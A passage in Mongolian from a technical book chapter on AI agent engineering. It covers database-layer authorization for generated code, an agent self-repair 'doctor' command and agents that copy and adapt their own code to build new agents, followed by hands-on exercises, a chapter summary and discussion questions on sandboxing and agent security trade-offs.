энэ хүрээтэй таних тэмдгийг хүлээн авдаг: энэ нь таних тэмдгийг хуурамчаар үйлдэж чадахгүй эсвэл дүрмийг тойрч гарах эрх бүхий мэдээллийн сангийн итгэмжлэлийг авч чадахгүй. Өөрийн зөвшөөрлийн шалгалтыг орхигдуулсан ч гэсэн өгөгдлийн давхарга нь зөвшөөрөлгүй үйлдлийг няцаасаар байна.

Зөвшөөрлийг доош нь шилжүүлэх нь бүх бизнесийн логикийг мэдээллийн санд оруулах гэсэн үг биш юм. Програмын давхарга нь хурдан санал хүсэлт өгөхийн тулд урьдчилсан шалгалт хийж болох ч өгөгдлийн давхарга нь эцсийн шийдвэр гаргах эрх мэдлийг хадгалах ёстой. Дээрх туршлагыг сайжруулж, доорх баталгааг өгч болно. Энэхүү баталгаа нь өгөгдөлд хандах бүх зам нь итгэмжлэгдсэн өгөгдлийн давхаргаар дамжин өнгөрөхийг шаарддаг; үүсгэсэн код нь түүний эргэн тойронд шууд холбогдох боломжгүй байх ёстой. Үүний үр дүнд дээд давхарга нь өөрчлөгдөж байх үед тохиролцох боломжгүй зөвшөөрлийн хязгаарлалт нь үе бүрт дахин бичигддэггүй давхаргад хэвээр үлддэг програм юм. Энэ бол Бүлэг 1-ийн гурван давхаргат хашлага хүрээний өгөгдлийн давхарга бөгөөд тойрч гарахад хамгийн хэцүү нь юм.

> **Туршилт 5-15 ★★★: Динамик програм хангамжид зориулсан зөвшөөрөлтэй Өгөгдөл объектууд**
>
> **Туршилтын зорилго**: Өгөгдлийн давхарга дээр зөвшөөрөл болон өгөгдлийн бүрэн бүтэн байдлыг хангахын зэрэгцээ програмын кодыг динамикаар үүсгэх эсвэл дахин бичих боломжийг олгодог объектын санг бүтээх. Үүсгэсэн код нь төлөв-машины шилжилтийг алгасах, хүрээнээс гадуур утга бичих эсвэл түрээслэгчдийг унших замаар тогтвортой өгөгдлийн хил хязгаарыг давж чадахгүй эсэхийг баталгаажуулна уу.
>
> **Техникийн арга**: PostgreSQL дээр Python объект хадгалах дундын програм хангамжийн давхаргыг бий болгох. Өгөгдөл төрлүүд нь зөвшөөрлийн дүрэм, хандалтын Context, баталгаажуулагч, объектын харилцаа холбоо, хариу үйлдлүүдээ зарладаг; унших эсвэл бичих объект бүр ээлжлэн зөвшөөрөл болон баталгаажуулалтын дамжуулах хоолой, тогтвортой байдал, лавлагааны бүрэн бүтэн байдлын шалгалт гэх мэтээр дамждаг.
>
> **Хүлээн авах шалгуур**: Ажилд авах шугамын хүчинтэй шинэчлэлт амжилттай болсон; нэр дэвшигчийн мужийн шилжилтийг алгасах, албан тушаалын хүрээнээс гадуур цалин бичих, түрээслэгчдийг унших зэрэг нь өгөгдлийн давхаргад няцаагдсан.

### Код үүсгэх код: Agent Bootstrapping

Өмнөх хэсгүүдэд математикийн үндэслэлээс эхлээд баримт бичиг үүсгэх, интерфэйсийн тохируулга хүртэл нэг салбарын код үүсгэлтийг дагаж мөрдсөн болно. Эдгээр чадваруудыг хязгаарт нь хүргэвэл байгалийн асуулт гарч ирнэ: Agent нь код үүсгэлтийг ашиглан өөр Agent үүсгэж чадах уу?



**Agent Өөрөө засах: OpenClaw Doctor.**

Agent bootstrapping-ийн чухал урьдчилсан нөхцөл бол өөрийгөө засах чадвар юм. OpenClaw дахь `doctor` команд нь энэ чадварыг агуулдаг бөгөөд энэ нь гурван төрлийн асуудлыг автоматаар илрүүлж чаддаг:

- **Тохиргооны гажиг**: Хугацаа нь дууссан OAuth жетон, хуучин тохиргооны форматууд, портын зөрчил
- **Төлөвийн асуудлууд**: Хуучирсан сессийн түгжээний файлууд, залгаасуудын хамаарал дутуу байна
- **Үйлчилгээний эрүүл мэндийн асуудлууд**: Gateway ажиллахгүй байна, sandbox зургууд байхгүй байна

Дараа нь энэ нь тэдгээрийг давхаргат засварлах стратегийн тусламжтайгаар автоматаар шийдвэрлэдэг: аюулгүй засварууд (тохиргоог хэвийн болгох, файлыг түгжих цэвэрлэгээ) автоматаар хийгддэг; эрсдэлтэй үйлдлүүд (үйлчилгээг дахин эхлүүлэх, тохиргоог албадан дарж бичих) нь хэрэглэгчийн баталгаажуулалтыг шаарддаг.

Үүнийг хэтрүүлж болохгүй: хугацаа нь дууссан Token, хуучирсан түгжээний файл, портын зөрчил зэрэг өндөр давтамжтай асуудлууд нь тодорхой илрүүлэх дүрэм, тогтмол засварлах үйлдэлтэй байдаг бөгөөд `doctor` нь уламжлалт үйлдлийн скрипттэй адил эхлээд детерминистик шалгалтаар** тэдгээрийг шийдвэрлэдэг. Agent чадвар нь хоёр дахь давхаргад утга учиртай болдог: эдгээр дүрмээс давсан илүү хүнд асуудлуудын хувьд `doctor` нь алдааны бүртгэлийг шинжлэх, тохиргооны файлуудыг тайлбарлах, үндсэн шалтгааныг тогтоох, зорилтот засварлах төлөвлөгөө гаргахын тулд LLM ашигладаг. Детерминистик шалгалт нь нийтлэг асуудлуудыг найдвартай шийддэг бол LLM нь урт сүүлийг хамардаг; хоёр давхарга нь хамтдаа `doctor --fix`-д нийтлэг гарцын асуудлуудын нэлээд хэсгийг автоматаар шийдвэрлэх боломжийг олгодог. Үүнийг "Agent нь Agent-г засаж байна" гэсэн хэв маяг болгож байгаа зүйл нь Agent нь гадаад систем дээр биш, харин өөрийн ажиллах үеийн орчин дээр ажилладаг бөгөөд өөрөө засварлах чадварыг системийн адаптерийн функцээс үндсэн ачаалах дэд бүтэц хүртэл дээшлүүлдэгт оршино.

**Agent хийх гол аргууд Agent бичнэ үү.**

Өндөр чанартай Agent үүсгэх нь ердийн програмын код үүсгэхээс хамаагүй хэцүү, учир нь энэ нь Agent архитектурын хэв маяг, шилдэг туршлагууд болон нийтлэг алдаануудын талаар гүнзгий ойлголт шаарддаг. Энэхүү салбарын туршлагагүйгээр хамгийн хүчирхэг код үүсгэх Model-ууд ч гэсэн ноцтой архитектурын алдаатай Agents үүсгэж болзошгүй. Нийтлэг дутагдалд дараахь зүйлс орно.

1. **Ad hoc Context менежмент**: Бүлэг 2-т хэлэлцсэн стандарт Context форматыг ашиглахгүй байх, траекторуудыг энгийн текст болгон Context-эд оруулах, бүтэцлэгдсэн мессежүүдээс KV кэшийн оновчлолыг үл тоомсорлох, багаж дуудлагын давталтад хил хязгаарын нөхцөл байдлын алдаануудыг оруулах
2. **Стандарт бус багажны загвар**: Тодорхойгүй тайлбар, хэрэглээний хил хязгаарын заавар дутуу, сөрөг жагсаалт, мөн тодорхой жишээ дутмаг параметрүүд
3. **Хуучирсан технологийн сонголтууд**: Хамгийн түгээмэл боловч хуучирсан Model-ууд болон сургалтын өгөгдлөөс авсан APIs-г ашиглах хандлагатай байна. Шийдэл: SOTA мэдлэгийн баазыг хадгалах эсвэл Agent-г хайлтын чадвараар тоноглох
4. **Гадны экосистемээс салсан**: Хуучирсан APIs, засвар хийгдээгүй сангууд эсвэл алдаатай хэв маягийг ашиглах

Эдгээр асуудлыг шийдэх хамгийн үр дүнтэй арга бол мөрөнд бүх дүрмийг бүрэн жагсаах биш, харин **өндөр чанартай Agent хэрэгжүүлэлтийг лавлагаа жишээ болгон өгөх** бөгөөд код үүсгэгч Agent-ийг эхнээс нь эхлэхийн оронд тэдгээрийг өөрчлөхөд чиглүүлэх явдал юм.

Жишээн дээр суурилсан үеийн давуу тал нь тодорхой юм: жишээ код нь өөрөө хамгийн сайн туршлагыг агуулдаг. Баталгаажсан хэрэгжүүлэлтийг дасан зохицуулсан Agent нь эхнээс нь эхэлсэн хэрэгжүүлэлтээс илүү олон удаа зөв болгодог, учир нь хэрэгжүүлэлт нь мөрөнд бүх дүрмийг бичих шаардлагагүйгээр архитектурын зөв сонголтыг хадгалдаг.

Agent нь шинэ Agent боловсруулах даалгавар хүлээн авахдаа эхлээд өөрийн кодыг (эсвэл бусад баталгаажсан, өндөр чанартай хэрэгжүүлэлтүүд) хуулж, дараа нь зорилтот өөрчлөлтүүдийг хийх ёстой: системийн зааврыг шинэ үүрэгт тохируулан тохируулах, шинэ функцэд тохируулан хэрэгслүүдийг солих эсвэл нэмэх, архитектурын хүрээг хадгалахын зэрэгцээ бизнесийн логикийг өөрчлөх. Энэхүү "дасан зохицох өөрчлөлттэй өөрийгөө хуулбарлах" хэв маяг нь шинэ Agent нь биологийн мутацитай генийн хуулбарлалттай адил тодорхой хэмжээсүүдэд ялгаварлан гадуурхах боломжийг олгохын зэрэгцээ гол техникийн давуу талыг өвлөн авах боломжийг олгодог.

> **5-16-р туршилт ★★★: Agents үүсгэж чадах Agent бүтээ**
>
> **Туршилтын зорилго**: Метапрограмчлалын чадавхитай буюу бусад програмуудыг үүсгэдэг эсвэл өөрчилдөг програмуудыг бичих чадвартай кодчилолын Agent-г бүтээх бөгөөд ингэснээр шилдэг туршлагыг баримталж, хэрэглэгчийн шаардлагаас хамааран шинэ Agent системийг автоматаар үүсгэх боломжтой болно.
>
> **Техникийн арга**: Кодлох Agent-г лавлагаа жишээ болгон өндөр чанартай Agent хэрэгжүүлэлтээр хангана (ch5/кодлох Agent-ын төслийг өөрөө ашиглаж болно). Шинэ Agent үүсгэх даалгавар өгөхөд Agent эхлээд энэ жишээ кодыг хуулж, дараа нь хэрэглэгчийн тодорхой хэрэгцээнд үндэслэн зорилтот өөрчлөлтүүдийг хийдэг.
>
> **Хүлээн авах шалгуур**: Үүсгэсэн Agent амжилттай ажиллаж, үндсэн ажлуудыг гүйцэтгэнэ. Стандарт мессежийн формат болон хэрэгслийн дуудлагын протокол, одоогоор санал болгож буй Model-ууд болон APIs ашиглаж байгаа эсэхийг, мөн олон харилцан ярианы ээлжинд Context болон төлөвийн менежментийг зөв ашиглаж байгаа эсэхийг шалгана уу. Эхнээс нь үүсгэсэн үйлдлийг жишээнд суурилсан өөрчлөлттэй харьцуулж, сүүлийнх нь чанар, үр ашгийг сайжруулж байгааг баталгаажуулна уу.
>
>
> 
>
>

## Бүлэг Дүгнэлт

Энэ бүлэгт нэг зүйлийг бүхэлд нь авч үзсэн: код бол зүгээр л програм бичих хэрэгсэл биш, харин Agent-ийн албан ёсны сэтгэлгээ, нарийн илэрхийллийн хэл юм.

Harness инженерийн хэсэг нэг гол дүгнэлтэд хүрсэн: Agents кодчилол нь код үүсгэх Model-ууд нь онцгой хүчтэй учраас биш, харин хэдэн арван жилийн турш хуримтлагдсан програм хангамжийн инженерийн дэд бүтэц - туршилтын багцууд, төрлийн системүүд, хувилбарын хяналт - нь хүчирхэг Harness-ийг бүрдүүлдэг учраас боловсорсон. Энэ дүгнэлтийг бусад Agent хувилбарууд руу шилжүүлэх нь зүйтэй. Алдаа болон алдааг сэргээх хэсэг нь ижил сэдвийн нөгөө талыг санал болгодог: Agent-ийн найдвартай байдал нь Model алдаа гаргадаг эсэхээс бус, харин алдааны ангилал бүр харгалзах илрүүлэх, сэргээх, шилжүүлэх, дуусгавар болгох замтай эсэхээс хамаарна.

Хоёр дахь хэсэгт үндсэн текстийн зургаан хэмжээстэй нийцүүлэн програмчлалаас гадна код үүсгэх өргөн хүрээний үнэ цэнийг харуулсан:

- **Tool-ийн сэтгэлгээ**: Магадлалын сэтгэлгээний дутагдлыг нөхөхийн тулд бэлгэдлийн тооцоолол болон хязгаарлалтын шийдлийг ашиглах
- **Бизнесийн дүрмийн хязгаарлалт**: Баталгааны үнэ цэнэ нь хэрэгжүүлэх өртгөөсөө хамаагүй давсан эргэлт буцалтгүй үйл ажиллагаанд бизнесийн дүрмийг тодорхой илэрхийлж, тодорхой аюулгүй байдлын тулгуурыг бий болгох
- **Мультимедиа үүсгэх**: Санал болгогч-Шүүмжлэгчийн механизмаар дамжуулан PPT болон видео гэх мэт олон төрлийн контент үүсгэх; код үүсгэх болон үүсгэгч Model-уудын хоорондох сонголт нь олдворын дотоод нарийн төвөгтэй байдал болон нарийвчлалын шаардлагаас хамаарна.
- **Систем адаптер**: Лог задлан шинжлэх болон асуудлыг оношлох бүрэн автоматжуулалтыг хийхийн тулд форматын хувьслыг автоматаар дагадаг
- **Үүсгэн байгуулах UI**: Энгийн текстийн хязгаарлалтаас чөлөөлөгдөж, маягт, дүрслэл, тэр ч байтугай бүрэн гүйцэд тохируулах боломжтой програмуудыг динамикаар үүсгэх
- **Agent Bootstrapping**: Код ашиглан одоо байгаа Agents-г засварлаж, шинээр үүсгэх бөгөөд эцэст нь Agent нь бусад Agents үүсгэх боломжтой болно

Agent-ийн хувьд кодын үнэ цэнэ нь үүнд оршино: энэ нь нэгэн зэрэг даалгавруудыг гүйцэтгэх хэрэгсэл бөгөөд мэдлэг хуримтлуулах, хэрэгсэл бүтээх, өөрийгөө сайжруулах механизм бөгөөд жинхэнэ "мета чадвар" юм.

Энэ үед бид ерөнхий зориулалттай Agent-ийн үндсэн архитектурт Context, мэдлэг, хэрэгсэл, код бичих чадварыг нэгтгэсэн бөгөөд код үүсгэх нь хамгийн ерөнхий мета-чадвар юм. Гэсэн хэдий ч эхний таван бүлэгт Agent болон дэлхий ээлжлэн ажилладаг гэж үзсэн хэвээр байна. Бүлэг 6 нь ажиглалт болон үйлдлийн орон зайг асинхрон үйл явдлууд, дуу хоолой, дэлгэц, физик ертөнц рүү өргөжүүлснээр "Agents бүтээх нь"-ийн эцсийн хэсгийг нөхдөг; энэ хэсэг байрандаа орсны дараа Бүлэг 7 нь үнэлгээ болон тасралтгүй сайжруулалт руу шилждэг.

## Бодолтой асуултууд

1. ★★ Код үүсгэхийг Agent-ийн “мета чадамж” гэж нэрлэдэг. Гэхдээ код гүйцэтгэх нь аюулгүй байдлын эрсдэлийг бий болгодог - Agent-ээр үүсгэгдсэн код нь эмзэг байдлыг агуулж, хязгааргүй давталт руу орох эсвэл нөөцийг шавхаж болзошгүй. Sandboxing нь эдгээр эрсдэлийн заримыг бууруулж болох ч кодын хийж чадах зүйлийг хязгаарладаг, жишээлбэл, сүлжээ эсвэл файлын системд хандахыг хориглох замаар. Аюулгүй байдал болон чадавхийн хоорондох оновчтой тэнцвэрийг хэрхэн олох вэ?
2. ★★★ Agent bootstrapping—Agents үүсгэж чаддаг Agent нь “оюун ухааныг өөрөө хуулбарлах” боломжийг олгодог. Гэхдээ bootstrapping-ийн давталт бүр шинэ алдаа эсвэл алдааг бий болгож болзошгүй. Эдгээр алдаанууд үе дамжин хуримтлагдах уу? Agent bootstrapping-ийн доройтлоос хэрхэн урьдчилан сэргийлэх вэ?
3. ★★ Код үүсгэгч Agent нь лог задлан шинжлэх ажлыг гүйцэтгэх үед форматын хувьслыг автоматаар дагаж чаддаг. Гэхдээ форматын өөрчлөлт нь зориудаар хийгдсэн өөрчлөлт биш харин алдаа бол Agent-ийн дасан зохицох чадвар нь асуудлыг нууж магадгүй юм. Agent нь "дасан зохицох шаардлагатай өөрчлөлт" болон "тайлагнах шаардлагатай гажиг"-ыг хэрхэн ялгах ёстой вэ?
4. ★★ Энэ бүлэгт PPT үүсгэх, видео засварлах, лог дүрслэлд санал болгогч-шүүмжлэгчийн механизмыг дахин дахин ашигласан болно. Хэрэв Шүүмжлэгчийн гоо зүйн сонголт нь зорилтот хэрэглэгчийнхээс өөр бол - жишээлбэл, Шүүмжлэгч мэдээллийн нягтралыг боломжийн гэж үзсэн боловч хэрэглэгч үүнийг хэт их ачаалалтай гэж үзвэл - санал хүсэлтийн давталт нь буруу орон нутгийн оновчтой хэмжээнд нэгдэж магадгүй юм. Хэрэглэгчийн сонголтын санал хүсэлтийг Шүүмжлэгчийн давталтад хэрхэн оруулах вэ?
5. ★★ Энэ бүлэгт код бичих Agent нь гүйцэтгэх болон дибаг хийх замаар олж авсан туршлагыг кодын санд буцааж нэгтгэх хэд хэдэн аргыг харуулж байна - мэдлэгийн баазын файлуудыг бичих, архитектурын баримт бичгийг шинэчлэх, төслийн зааврын файлуудыг хадгалах, үйлдлийн дарааллыг код болгон кодлох. Хэрэв энэ туршлагыг системийн зааврын дүрмүүдэд цаашид нэвтрүүлбэл дүрмийн багц цаг хугацааны явцад өргөжин тэлсээр байх болно. Илүүдэл эсвэл хуучирсан оруулгуудыг тодорхойлж, арилгахын тулд хуримтлагдсан дүрмүүд дээр "хог хаягдлыг цуглуулах"-ыг хэрхэн гүйцэтгэх вэ? Яагаад ганц амжилттай кодын өөрчлөлт нь Бүлэг 9 гэсэн утгаараа тасралтгүй хувьсал биш вэ?
6. ★ “Алсын зайнаас ажиллахад ээлтэй багууд AI Agents-тэй мөн адил ээлтэй байдаг.” Танай баг эсвэл байгууллага мэдлэгийн баримт бичгийн хувьд “AI-д бэлэн” байх тал дээр хэр ойрхон байна вэ? Хамгийн том саад бэрхшээл юу вэ?
7. ★★★ Саймон Уиллисон Agents-д зориулсан "Үхлийн гурвал"-ыг санал болгосон - хувийн мэдээлэлд хандах, найдваргүй контентэд өртөх, гадаад харилцаа холбооны чадвар. Энэ бүлэгт дөрөв дэх элементийг нэмж оруулсан: байнгын санах ой. Дөрвөн зүйлийг нэгэн зэрэг зохицуулах ёстой үйлдвэрлэлийн орчны аюулгүй байдлын стратегийг та хэрхэн боловсруулах вэ?
8. ★★ Artifact pattern нь Agent-д Database болон browser-аар гүйцэтгүүлэх SQL эсвэл frontend code үүсгэх боломж олгож, LLM их хэмжээний Өгөгдлийг өөрөө боловсруулах шаардлагагүй болгодог. “Agent code үүсгэнэ, Систем code-ийг гүйцэтгэнэ” гэсэн хөдөлмөрийн хуваарь нь Agent шууд хариулдаг уламжлалт аргаас ямар давуу ба сул талтай вэ? Мөн үүсгэсэн SQL нь устгах нөлөөтэй үйлдэл хийж, HTML нь эмзэг байдал агуулж болно. Системийн аюулгүй байдлыг хэрхэн хангах вэ?
9. ★★ Бизнесийн дүрмийг эрх бүхий мэдээллийн сангийн бичлэгүүдтэй харьцуулан хэрэгслүүдийн доторх шалгалт болгон кодлох, дуудлага хийхээс өмнө бодлогын нөхцөл байдлыг шалгахын тулд Model-ыг чиглүүлэхийн тулд параметрийн Model-ыг ашиглахын зэрэгцээ Agent-ийн зан төлөвийг хязгаарлахын тулд үндсэндээ кодын бүтцийг ашигладаг. Байгалийн хэлээр илэрхийлэгдсэн дүрмүүдтэй харьцуулахад энэхүү "код дүрмээр" хэв маягийн давуу болон хязгаарлалтууд юу вэ?
